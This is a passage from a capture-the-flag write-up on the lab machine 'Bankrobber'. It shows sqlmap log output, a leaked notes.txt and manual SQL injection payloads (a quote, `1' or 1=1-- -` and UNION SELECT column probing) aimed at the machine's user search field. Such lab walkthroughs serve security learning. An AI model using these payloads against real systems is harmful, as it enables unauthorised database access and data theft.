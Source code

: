 ```txt
[18:33:36] [WARNING] something went wrong with full UNION technique (could be because of limitation on retrieved number of entries). Falling back to partial UNION technique
[18:33:47] [WARNING] unable to retrieve the entries for table 'hold' in database 'bankrobber'
[18:33:47] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/10.10.10.154'

[*] ending @ 18:33:47 /2022-09-15/

```

##### Manually

###### MySQL SQL Injection Cheat Sheet
https://pentestmonkey.net/cheat-sheet/sql-injection/mysql-sql-injection-cheat-sheet

###### notes.txt

we could access this contents on the admin portal : `http://10.10.10.154/notes.txt`

```txt
- Move all files from the default Xampp folder: TODO
- Encode comments for every IP address except localhost: Done
- Take a break..
```

![[Bankrobber-22.png]]

###### UNION injection
On playing with the users search, I quickly identified a potential SQLI:

```sql
1'
```

![[Bankrobber-14.png]]

Now I can access a lot of stuff. First, all the users:

```sql
1' or 1=1-- -
```

![[Bankrobber-15.png]]

Now I’ll try for a `UNION` injection. I’ll need to know how many columns. `SELECT 1` and `SELECT 1,2` returns errors, but `1,2,3` works:

```sql
1' UNION SELECT 1;-- -
1' UNION SELECT 1,2;-- -
1' UNION SELECT 1,2,3;-- -
```

![[Bankrobber-16.png]]

![[Bankrobber-17.png]]
